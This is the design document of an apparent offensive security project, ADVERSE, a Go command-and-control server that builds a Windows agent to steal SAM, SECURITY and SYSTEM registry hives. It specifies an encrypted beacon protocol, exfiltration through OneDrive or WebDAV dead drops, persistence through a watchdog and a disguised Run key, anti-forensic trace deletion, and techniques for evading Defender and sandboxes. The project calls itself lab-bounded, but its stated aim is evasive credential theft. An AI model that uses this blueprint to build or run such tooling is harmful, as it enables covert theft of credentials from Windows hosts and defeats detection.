


# Design

Concise technical model for ADVERSE, a Go C2 server (`adversed`) that generates and operates a self-contained Windows registry-exfiltration agent stub (`registryfil`) intended to evade standard Microsoft Defender Antivirus on consumer Windows 10/11. The [README](README.md) is the canonical overview.

## Protocol

Transport: HTTPS POST, one framed envelope per request/response, 2 MB body cap. An alternative dead-drop transport exchanges the identical envelopes as opaque blobs through third-party file storage; both channels execute the same `transport.ProcessFrame` core, so the wire contract cannot drift between them.



- **Frame** - `prefix[P] || u32 seq BE || u32 len BE || nonce[12] || ct || tag[16]`, ChaCha20-Poly1305 under a 32-byte session key. `len = len(nonce) + len(ct) + len(tag)`. AAD = `(aad or "") || u32(len) BE` (length bound); `seq` and `direction` are bound via the **deterministic nonce** `nonce = u64(seq) BE || direction(1) || 0x00×3`, eliminating random-nonce reuse and preventing cross-direction replay. Direction is `0x00` (client→server) or `0x01` (server→client); `Parse` rejects frames whose on-wire nonce does not match the expected `(seq, direction)` pair. The default replay window is 512 frames (~4.3 h at 1 frame/30 s), sized per RFC 4303 §3.4.3/§A2 to absorb sleep and partition gaps.
- **Key schedule** - fleet secret seeds an X25519 static key plus Ed25519 kill key; agents send a per-session ephemeral; session key = HKDF-SHA256(ECDH, salt, info).
- **Messages** - `hello`, `beacon`, `task`, `ack`, `result`, `kill`. Beacon payloads carry `interval`/`jitter` plus an optional additive `jobs` array (bounded: 4 jobs × 128 missing seqs) reporting the server's per-job chunk state for recovery. Kill frames reject stale/replayed epochs. `ack` confirms task receipt so the server can advance the task lifecycle and distinguish lost tasks from slow ones.
- **Compatibility** - wire/key-schedule compatibility with the reference protocol is pinned by known-answer tests (`testdata/kat.json`); the `jobs` extension lives inside the encrypted beacon payload, so framing and the key schedule are unchanged.

## Stub generation

`adversed` is the only operator-run binary. `gen-stub` cross-compiles
`./cmd/registryfil` for `GOOS=windows GOARCH=amd64` and injects the complete
agent config at link time:

```text
adversed gen-stub \
  --secret-file fleet.secret \
  --server-url https://<ip>:8443 \
  [--hives SYSTEM,SAM,SECURITY] \
  [--out stub.exe] [--src /path/to/adverse-go] \
  [--tls-skip-verify] [--real-mode] [--seed HEX] [--go go] \
  [--persistence none|watchdog|runkey|both] [--run-key-name NAME] \
  [--spool[=false]] [--spool-dir DIR] [--shape[=false]] \
  [--upload-jitter-ms N] [--scrub-traces] \
  [--exit-after-delivery[=false]] [--windowsgui[=false]]
```

- **Embedded config.** The config JSON is base64-encoded and passed as
  `-ldflags -X github.com/ashwnn/adverse-go/internal/agent.embeddedConfigB64=...`
  (`internal/agent/embedded.go`). Only the generated exe is copied to the
  target; no `agent.json` is deployed. The fleet secret and server URL are
  recoverable from the binary, so stub handling follows the same rules as the
  fleet secret itself.
- **Mode resolution.** `agent.EmbeddedConfig()` returns nil for lab builds
  (no `-X`), so `cmd/registryfil` keeps its `--config` requirement. When a
  config is embedded it wins over `--config`, and `--dry-run` defaults to
  false (stub mode); lab builds default `--dry-run=true`. Both paths run the
  same `Config.Validate` before any egress.
- **Mode.** `--real-mode` is a mode selector, not a gate: it embeds
  `real_mode:true` so the agent performs real hive extraction. Synthetic
  extraction remains the default.
- **Build knobs.** `--seed` pins the per-build 8-hex seed (default:
  crypto-random) and is injected into `internal/obfuscate.BuildSeed` and
  `internal/stealth.XorKeyHex`; `--src` selects the module root (otherwise
  auto-detected from the executable directory or cwd) and `--go` selects the
  Go toolchain. The build always sets `GOOS=windows GOARCH=amd64 CGO_ENABLED=0`
  and `-trimpath`, and embeds `main.version`/`gitCommit`/`buildTime`. The
  default output is `stub-<agentID>.exe`; `--out` overrides it.
- **Other config knobs** mirror the agent schema: `--secret` (prefer
  `--secret-file` or `ADVERSE_SECRET`), `--chunk-size`, `--min-delay-ms`,
  `--max-delay-ms`, `--user-agent`.
- **Delivery and stealth knobs.** `--persistence` (default `watchdog`),
  `--run-key-name`, `--spool` (default true), `--spool-dir`, `--shape`
  (default true), `--upload-jitter-ms` (default 250), `--scrub-traces`
  (default false), and `--exit-after-delivery`
  (default true) map to the `persistence`, `spool`, `shaping`,
  `anti_forensic`, and `exit_after_delivery` config sections; `--windowsgui`
  (default true) adds `-H windowsgui` to the linker flags. `gen-agent`
  accepts the same non-WindowsGUI flags.
- `make windows` builds only the lab `registryfil.exe`; generated stubs come
  from `adversed gen-stub`.

## Dead-drop transport

"Living off trusted services" (LOTS): the agent uploads its request frame as a blob (`<dir>/<agentID>/<seq>-in`) to third-party storage and polls for the response blob (`<seq>-out`); the server-side poller lists the store, processes each request through the shared wire core, and writes the response. Both sides delete blobs after reading; the store only ever holds ephemeral AEAD-encrypted envelopes — no plaintext, no session keys.

- **HTTP/WebDAV store** (`store: "http"`): generic PUT/GET/DELETE/PROPFIND against e.g. Nextcloud/ownCloud; optional basic/bearer auth (bearer via env reference).
- **Microsoft Graph store** (`store: "graph"`): OneDrive drive items via `graph.microsoft.com` with client-credentials OAuth (app registration, `Files.ReadWrite.All`); the operator holds the tenant.
- Blob names reject path traversal (`..`, empty segments) and URL delimiters (`?`, `#`, `%`, control characters); path segments are percent-encoded. Blobs over the 2 MB cap are rejected, not truncated.
- Agent cadence: `poll_interval_s` (response polling) and `response_timeout_s`; the server poller cadence is `profile.drop.poll_interval_s`.

## Beacon timing

Beacon delay is `interval` plus **Gaussian jitter** (std = jitter/3, clamped) — perfect periodicity is the detectable signal; a spread weakens timing analysis. `transport.jitter_seed` makes the RNG deterministic for tests/CI. `transport.sleep_mode: "timer"` switches Windows pacing to a kernel waitable timer (`internal/timerwait`, no `NtDelayExecution`); the default runtime sleep already uses Go's timer machinery, and full-image sleep obfuscation (Ekko/Foliage-style) is deliberately avoided: it generates its own observable APC/timer events, and consumer Defender does not memory-scan third-party processes, so the added noise is not offset by a meaningful detection win.

## Task lifecycle

Every operator-issued task is tracked server-side and persisted across restarts:

```text
queued → dispatched → acked → completed | failed | expired
```

- `queued` tasks are delivered one per `beacon` response; `dispatched` is recorded server-side at send. Only beacons dequeue: `ack` and `result` responses carry a beacon frame, so a queued kill or task cannot be consumed and marked complete by an unrelated result frame.
- The agent replies with an `ack` frame; `acked` tasks time out from their ack timestamp.
- `completed` fires on a status result (sleep/noop) or the final extract chunk once every chunk `0..total-1` is present — a missing chunk leaves the task in flight for the retry path.
- A task whose dispatch/ack deadline (3 beacon periods) passes is retried up to 3 times, then `expired`. Kill tasks complete on dispatch because the agent exits without acking.
- Task IDs are idempotent per `(agent, task)`: re-enqueueing the same job for the same agent is a no-op, while the same job ID for a different agent is a distinct task. The agent marks a job terminal only after its final chunk/status is sent; a re-dispatched extract resumes from the first failed chunk seq, and the server overwrites chunks by seq, so a lost frame cannot double-execute or permanently fail a job.
- Lost chunks are recovered without re-extraction. Each beacon response carries the bounded `jobs` array (max 4 jobs, max 128 missing seqs each); the agent resends only the listed missing seqs from its encrypted spool and prunes the chunks the server already holds. A missing list truncated at 128 disables pruning for that job (the unlisted tail is unknown), and seqs beyond a server-reported total that disagrees with the local total are kept.
- `complete:true` is the server's reassembly confirmation: the agent drops that job's spool state and records it. With `exit_after_delivery` (stub default true), the agent runs final cleanup and exits 0 once at least one extract job is confirmed complete and no incomplete spooled jobs remain; noop/sleep-only sessions stay alive.
- Terminal chunk reassembly state is retained for retrieval (`ChunkRetention`, default 1 h) and capped at 64 jobs; older terminal jobs are pruned lazily.

## Reliable delivery and spool

Extract results are written to an encrypted, durable spool (`internal/spool`) before the first chunk is sent, so a crash, lost ack, or restart resumes delivery without re-reading the hive (synthetic extraction is non-deterministic, so already-spooled bytes are reused, never regenerated).

- **On-disk format.** `journal.json.enc` holds all per-job progress; `<jobdir>/meta.enc` holds `{job_id,hive,total}` for journal rebuild; `<jobdir>/<seq>.chunk` holds one encrypted chunk. The AEAD key is HKDF-SHA256(secret32, salt=nil, info=`adverse-spool-v1|`+agentID) feeding ChaCha20-Poly1305; AAD binds each chunk to `jobID|seq|total`, the journal to `"journal"`, and meta to its hashed directory. `<jobdir>` is an HMAC-SHA256 of the job ID, so hive bytes and job/hive identifiers are not plaintext on disk (chunk sequence numbers remain visible in file names and counts). Writes are atomic (temp file, fsync, rename) and 0600 inside a 0700 tree; the default dir is `%TEMP%\adverse\<agentID>\spool`.
- **Crash recovery.** `Open` rebuilds progress from `meta.enc` plus a chunk listing when the journal is missing or unauthenticated; rebuilt acks start empty, so unknown acks are re-sent, never assumed. A fully spooled job is authoritative and reused as-is; a partial spool (which can only predate the first send) is discarded and rebuilt from a fresh extraction.
- **Server-driven recovery.** `JobProgressForAgent` reports at most 4 jobs (newest task first, deterministic ties) with at most 128 missing seqs per job, `omitempty` hive/missing. The agent's `applyJobStatus` resends missing seqs from the spool and calls `Ack` only when the missing list is complete (not truncated) and the server total does not undercut the local total.
- **Completion and cleanup.** `Ack` deletes only the seqs the server confirmed (steady-state), `Complete` drops a finished job, and `Wipe` removes the whole tree on delivery completion or accepted kill. `finalCleanup` is idempotent and runs on every terminal path.
- **Fail-closed in real mode.** In `real_mode` a spool open failure is fatal; in synthetic mode the agent degrades to the in-memory path.
- **Honest trade-off.** Ciphertext hides content and identifiers, but a live examiner still sees file counts, sizes, and timestamps until ack/wipe; the spool is a resume aid, not zero on-disk residue.

## Bounded persistence

`internal/persist` implements optional, self-removing persistence whose only job is to finish an in-flight extraction. The agent arms it only after a real-mode extraction has produced (or recovered) data, before any chunk leaves the host. Synthetic-mode stubs carry the setting inert; on non-Windows hosts every mode is a no-op.

| Mode | Artifact | Coverage |
|---|---|---|
| `none` | none | no persistence |
| `watchdog` (stub default) | detached child waits on the agent PID | same-boot crash/exit coverage |
| `runkey` | HKCU `...\CurrentVersion\Run` value (default name `WindowsUpdateCheck`; `--run-key-name` overrides) | reboot coverage |
| `both` | both | both, paying both telemetry costs |

- **Watchdog protocol.** The child is spawned detached with `--persist-watchdog <parentPID> <budget>`; `cmd/registryfil` handles it before flag parsing. The child waits on the parent, treats exit `0` (signed kill or delivery complete) and `2` (kill_switch) as intentional and exits without relaunching, and relaunches otherwise with the stripped relaunch args (`--resume`). Relaunches are capped at 3 across the chain (`ADVERSE_PERSIST_BUDGET`), so a crash loop is bounded by the relaunch budget; it is not bounded by a TTL or deadline.
- **Arming is all-or-nothing.** If a `both` arm fails to spawn the watchdog, the Run value written first is rolled back; a second `Arm` while armed is a no-op.
- **Disarm.** `Disarm` stops the watchdog and deletes only the Run value this package wrote; the agent's single `finalCleanup` runs on delivery completion, accepted signed kill (after `KillVerify` and the epoch check), signal cancellation, and fatal shutdown. Rejected kills return before cleanup. The signed-kill replay-floor state file is removed only on intentional stops, so a watchdog relaunch keeps it.
- **Honest trade-offs.** The watchdog has no registry or disk artifact but is a second observable process (process listings, Sysmon 1/ETW). The Run key is a monitored autorun (Sysmon 13, Defender autorun inspection, offline hive analysis). Both are documented in the package header.

## Stealth: sleep-state, shaping, hygiene

- **Sleep-state memory protection.** In-memory result handling is bounded and FIFO (256 tracked jobs, `extractProgress`), hive bytes are never re-extracted when a durable spool exists, spooled data at rest is AEAD-encrypted, and plaintext buffers are wiped after use (`audit.SecureZeroBytes`, including the materialized chunk slice). Full-image sleep obfuscation (Ekko/Foliage-style) remains deliberately unimplemented — see Beacon timing.
- **Traffic shaping** (`internal/netshape`). One immutable `Profile` per session picks a realistic Chrome/Firefox User-Agent and a plausible path segment from fixed pools (never `/admin`), sends matching browser headers, and holds them stable for the session. `shaping.enabled` (stub default true) and `shaping.upload_jitter_ms` (stub default 250) add uniform jitter to chunk pacing. Shaping applies to the HTTPS transport and never changes the egress host. The seed follows `transport.jitter_seed` for deterministic tests.
- **Execution hygiene** (`internal/hygiene`). `gen-stub` defaults `--windowsgui` true (`-H windowsgui`, console stripped); at startup `hygiene.Apply` suppresses critical-error/GPF/missing-file dialogs (`SetErrorMode`) and hides any attached console. Best-effort and no-op off Windows.

## Anti-forensic scrubbing

`--scrub-traces` (config `anti_forensic.scrub_traces`, default false) enables a best-effort, identity-gated scrub at final teardown (`internal/antiforensic`). Only entries referencing the running executable's path or basename (or a distinctive argument) are touched:

1. `%SystemRoot%\Prefetch\<exeBase>-*.pf`
2. HKCU UserAssist `Count` values whose ROT13-decoded name references the exe
3. HKCU RecentDocs and ComDlg32 MRU values (RecentDocs, OpenSavePidlMRU, LastVisitedPidlMRU) whose name or raw PIDL data references the exe
4. HKLM BAM/DAM `UserSettings` values referencing the exe (normally requires admin)
5. `%TEMP%` files whose name starts with the exe basename, except the running executable itself

Event logs, ETW/ETW-TI, the USN journal, MFT timestamps, and timestomping are never touched. Failures (missing admin, locked files) land in `Report.Skipped`/`Report.Errors` and never abort the scrub. Deletion is itself observable — fresh USN/MFT records, hive transaction logs, possible EDR alerts — so this is a disposable-lab option, not an anti-forensic guarantee.

## Operator API

`serve` exposes an authenticated admin API on the same TLS listener under `/admin/v1`:

| Endpoint | Purpose |
|---|---|
| `GET /health` | Server status, version, uptime, agent/task/result counts |
| `GET /agents` | Agent list with computed online status, kill epoch, pending tasks |
| `GET /tasks?agent=` | Task lifecycle records (JSON) |
| `POST /tasks` | Enqueue extract/sleep/noop with job ID |
| `GET /results?agent=&task=&reassembled=1` | Result entries and per-hive reassembled bytes (base64) |
| `POST /kill` | Sign and enqueue an epoch-bound kill |

Authentication is a bearer token (SHA-256 hashed in memory, constant-time compare). No configured token fails closed with 503. Admin traffic is rate-limited per IP before authentication, so invalid-token attempts consume budget; auth failures are audit-logged only when rate-allowed. Operator actions and server events are appended to `state_dir/audit.jsonl`; session keys and hive bytes are never logged.

## Components

| Package | Responsibility |
|---|---|
| `cmd/adversed` | Operator CLI (the only operator-run binary): `gen-stub` `gen-agent` `serve` `task` `tasks` `list` `results` `kill` `status` `version` |
| `cmd/registryfil` | Endpoint agent: embedded-config stub (generated by `gen-stub`) or `--config` lab entrypoint |
| `internal/wire` | Framing, authenticated encryption, replay handling (Python-reference compatible) |
| `internal/cryptokeys` | Fleet secret to X25519/Ed25519 material, HKDF session derivation |
| `internal/message` | Protocol message schema and validation (hello/beacon/task/ack/result/kill) |
| `internal/transport` | HTTP handler split: agent wire endpoint + operator admin API (`/admin/v1`), auth, rate limiting. `ProcessFrame` is the transport-agnostic wire core shared with the dead-drop poller; beacon replies additively carry the bounded `jobs` chunk-state array |
| `internal/adminapi` | Operator-side admin API client used by the CLI |
| `internal/drop` | Dead-drop transport (LOTS): Store abstraction (HTTP/WebDAV, Microsoft Graph OneDrive with client-credentials OAuth), agent blob-exchange client (delete-after-read), server poller running the shared wire core |
| `internal/timerwait` | Windows waitable-timer sleep (no `NtDelayExecution`) with context-aware fallback on other platforms |
| `internal/server` | Agent registry, task lifecycle (queued/dispatched/acked/completed/failed/expired, retry/expiry, persistence), per-hive chunk reassembly with retention bounds, bounded per-job chunk progress (`jobs`) for beacon recovery, kill epochs, atomic state, JSONL audit |
| `internal/profile` | Server profile: listen, beacon cadence/jitter, result caps, headers |
| `internal/agent` | Endpoint lifecycle: embedded/file config resolution, hello, beacon loop, task ack, task dispatch (extract/sleep/noop), status results, retry/backoff, encrypted-spool resume and server `jobs` reconciliation, bounded persistence arming/teardown, shaping, exit-after-delivery, terminal-only idempotency |
| `internal/spool` | Encrypted durable result spool: per-job chunks + journal (HKDF-SHA256 → ChaCha20-Poly1305), keyed job dirs, atomic writes, crash rebuild, ack/complete/wipe lifecycle |
| `internal/persist` | Bounded self-removing persistence: detached watchdog waiting on the agent PID, optional HKCU Run value, relaunch budget, idempotent arm/disarm; no-op off Windows |
| `internal/netshape` | Per-session browser-like User-Agent/path/header shaping and upload pacing jitter |
| `internal/hygiene` | Windows execution hygiene: error-dialog suppression, console hide; no-op off Windows |
| `internal/antiforensic` | Opt-in identity-gated scrub of agent-attributable Prefetch/UserAssist/MRU/BAM-DAM/temp traces; never logs/ETW/USN/timestamps |
| `internal/registrywin` | Hive extraction: synthetic default, `NtSaveKey`+`NtReadFile` real mode |
| `internal/audit` | Locked buffers, secure-zero, synthetic regf generation |
| `internal/opsec` | Read-only per-sensor detection-coverage matrix |
| `internal/obfuscate` | String crypter, indirect dispatch, opaque/CF-flattening, junk islands |
| `internal/anti` | Anti-debug, anti-VM/sandbox, anti-emulation, anti-disassembly |
| `internal/behavioural` | any.run-aware sandbox evasion: env keying, desktop gate, delayed APC, mimicry, opt-in decoy HTTP, VEH stubs |
| `internal/stealth` | XOR string table, runtime ntdll SSN resolution (no hardcoded SSNs), module tail-slack discovery |
| `internal/syscalls` | Direct `SYSCALL` trampolines via a persistent pool (preferred placement: loaded image tail slack, single RW→RX; fallback: one private RX region); simulated off-Windows |
| `tools/polymorph` | PE/ELF overlay padding - hash busting without changing execution |

## Hardening stack

Hardening changes binary representation only. It never changes the wire format, task lifecycle, or safety invariants.

```mermaid
flowchart TB
    subgraph BUILD["Build time"]
        B1["-s -w -buildid= · -trimpath · PIE"]
        B2["per-build POLY_SEED keying (string table rekeyed only via explicit `make generate`)"]
        B3["garble -literals -tiny -debug"]
        B4["tools/polymorph overlay (hash bust)"]
    end
    subgraph STATIC["Static anti-analysis"]
        S1["RotatingXOR string table - no plaintext IOCs in .rodata"]
        S2["seeded indirect dispatch - hides X25519 / chacha / hkdf / SHA256 edges"]
        S3["opaque predicates · CF flattening · junk islands · SplitFunction"]
    end
    subgraph DYNAMIC["Dynamic anti-analysis"]
        D1["PEB / NtQueryInformationProcess debug checks · timing delta"]
        D2["cpuid hypervisor bit · sandbox artifacts · uptime checks"]
        D3["anti-emulation stalls · API hammering detection"]
        D4["persistent trampoline pool - image-slack stub residency (MEM_IMAGE), one RW→RX transition, no per-call flip churn"]
    end
    subgraph BEHAVIOUR["Sandbox behavioural evasion"]
        V1["environmental keying - MachineGuid + volume serial + hostname"]
        V2["interactive-desktop gate - input within 5 min · uptime > 8 min"]
        V3["delayed APC - real work 110 to 150 s after the gate (beyond any.run's 60 to 90 s window)"]
        V4["benign mimicry - decoy HKCU opens; CRL-shaped GETs only with ADVERSE_DECOY_HTTP=1"]
        V5["VEH int3 stub decryption - no syscall opcode visible to linear sweep"]
    end
    BUILD --> STATIC --> DYNAMIC --> BEHAVIOUR
```



Anti-analysis is signal-only. Failures stall, delay, or downgrade to benign beaconing. They never disable the fail-closed controls.

## Behavioural gate

Commodity AV fingerprints `XOR+Base64`, `VirtualAlloc RWX`, bare `Nt*` syscalls, and naive sleep. any.run fast-forwards `NtDelayExecution` and tags behaviour (hive read within about 5 s on a 2 vCPU / 4 GB template VM with no user input). Decryption and scheduling are keyed to evidence of a real interactive desktop, not wall time:



Test hooks: `BEHAVIOURAL_SANDBOX=1 any_run_artifact` means `behavioural.Allow()==false`. `ADVERSE_BEHAVIOURAL=1` plus `ADVERSE_BEHAVIOURAL_STAGING=1` arms the delayed-APC path on a real desktop. CI sets `ADVERSE_BEHAVIOURAL=0` to skip the stall. Decoy HTTP is inert unless `ADVERSE_DECOY_HTTP=1`; dry-run suppresses it entirely.

## Forensic investigator model

Live AV/EDR evasion is one adversary model; post-incident forensic investigation is another (disk image, memory capture, event logs, no time pressure). The project's position is deliberately bounded: it hardens the artifacts it produces and, by default, does not chase artifact deletion because deletion is itself a recoverable artifact. An explicit opt-in scrub (`--scrub-traces`) exists for disposable lab hosts; it removes only the agent-attributable traces listed in Anti-forensic scrubbing and never touches logs, ETW, the USN journal, or timestamps.

Documented positions:

- **Execution artifacts are accepted by default.** Any on-disk run of the agent records Prefetch, ShimCache (AmCache.hve), BAM/DAM, SRUM, UserAssist and MFT/USN entries. Opt-in `--scrub-traces` best-effort removes the agent-attributable subset at teardown, but deletion is itself detected: each deletion creates new USN/MFT evidence, and `$STANDARD_INFORMATION` vs `$FILE_NAME` timestamp mismatch plus USN correlation defeats timestomping (MFTECmd-class tooling). The scrub never touches logs/ETW/USN/timestamps. The only full answer is reflective/stager loading, which is out of scope; the honest trade is documented in the registrywin, antiforensic, and syscalls docs.
- **Event logs and ETW are never touched — including by the scrub.** Clearing/tampering is a losing trade: Event 1102/104 detections are commodity (Splunk/CrowdStrike/Sentinel/Sigma), EVTX slack and VSS recover cleared logs, and user-mode ETW patching leaves the kernel ETW-TI provider intact while making the silence itself detectable. An untouched log set with no suspicious events is the strongest outcome.
- **Registry residue is minimized, not hidden.** `NtSaveKey` necessarily produces a temp file; the read handle opens with `FILE_FLAG_DELETE_ON_CLOSE`, so the I/O manager deletes it on close (crash-safe), with `FILE_ATTRIBUTE_TEMPORARY` as a reboot fallback and `cleanupTempFile` as the eager path. Create/delete MFT/USN records and kernel registry callbacks (Sysmon 12/13/14, ETW-TI) remain — documented residue. In-memory value reads are preferred over `NtSaveKey` wherever hive semantics allow.
- **Memory capture exposes bounded material.** Session keys and real hive bytes live in locked buffers (`SecureBuffer`: mlock/VirtualLock), are zeroed on release (`SecureZero`), and hive data streams through short-lived buffers. The synthetic generator returns an ordinary unlocked copy as the exfil payload while its separate locked copy is zeroed (see the ownership contract in `internal/audit`); callers own wiping the returned slice. Syscall stubs are plaintext at rest inside the pool (image slack or private RX) — a linear sweep can find the opcodes; section-backing scanners can flag unbacked image slack. This is the documented trade for eliminating per-call allocation/protection churn.
- **Kernel telemetry is the floor.** ETW-TI, Sysmon kernel callbacks, and MDE observe registry, file, and network activity regardless of any user-mode technique; the opsec matrix marks them `Unaffected` and the code does not claim otherwise.

## Safety invariants

| Invariant | Expected behavior |
|---|---|
| Synthetic default | Synthetic hives / in-memory regf remain the default; real extraction is opt-in via `--real-mode` (no environment gate) |
| Bounded runtime | The agent stops on a signed epoch-bound kill, kill_switch, delivery completion, a signal, or a fatal error; there is no self-TTL |
| Bounded persistence | Arming requires `real_mode`; watchdog relaunches capped at 3; disarm plus spool wipe on delivery completion, accepted signed kill, or fatal shutdown; no TTL or deadline bound, so persistence is bounded by delivery/kill and the relaunch budget; rejected kills never clean up |
| Encrypted spool | Chunks and journal AEAD-encrypted (HKDF-SHA256 → ChaCha20-Poly1305), atomic writes, wiped on terminal paths; ciphertext file count/size/timing remains observable to a live examiner |
| Opt-in scrub | `scrub_traces` is opt-in and independent of `real_mode`; only agent-referencing Prefetch/UserAssist/MRU/BAM-DAM/temp artifacts; event logs/ETW/USN/timestamps are never touched; deletion is itself observable |
| Wire compatibility | The beacon `jobs` recovery array is additive inside the encrypted payload; framing and key schedule are unchanged and KAT-pinned |
| Replay resistance | Session frames and kill epochs reject stale/replayed input |
| Bounded input | Message and result sizes capped; 2 MB HTTPS body limit; extract `chunk_size` in `(0, 512 KB]`; terminal chunk state retained 1 h / 64 jobs; beacon job-progress bounded to 4 jobs × 128 missing seqs |
| Operator auth | Admin API requires a bearer token; no token configured fails closed; per-IP rate limiting applied before authentication |
| Audit trail | Operator actions and server events in `state_dir/audit.jsonl`; no keys or hive bytes logged |
| Honest limits | Kernel telemetry (ETW-TI, Sysmon callbacks, MDE) observes real extraction regardless of user-mode hardening. This is stated in the `registrywin` and `syscalls` docs. Execution artifacts (Prefetch/ShimCache/BAM/SRUM) and create/delete MFT/USN records remain for any on-disk run or temp file unless the opt-in scrub removes the agent-attributable subset; the scrub is itself detectable and log/ETW/USN/timestamp tampering is explicitly out of scope as a detected losing trade (see Forensic investigator model) |

## Test model

- **Functional** - compiles, interoperates, completes the bounded operation, returns results.
- **Workflow** - the integration test runs `adversed` and `registryfil` as real binaries and drives the operator admin API end-to-end: task enqueue with `--wait`, lifecycle verification (ack/completed), server-side per-hive reassembly retrieval, noop status results, and signed kill termination.
- **Safety** - synthetic defaults, kill controls, cleanup, and bounded persistence behave as specified.
- **Defender result** - did the specific build/Windows/Defender configuration surface or block the run? A quiet run is evidence for that configuration only. A passing integration test is not an evasion result.

Record per run: Windows build, Defender platform/engine/security-intelligence versions, real-time plus behavior plus cloud-delivered protection states, tamper protection, ADVERSE commit SHA.

## Non-goals

General-purpose remote administration, enterprise EDR or Microsoft 365 validation, unrestricted targeting, long-term persistence, third-party deployment, full-image sleep encryption, and claiming universal evasion from a single run.

Bounded, self-cleaning retrieval persistence — watchdog/Run-key modes that exist only to finish an in-flight real-mode extract and are removed on delivery or an accepted kill — is in scope and documented under [Bounded persistence](#bounded-persistence).

## Source of truth

When docs and code disagree, code and tests win. Fix the documentation in the same change.
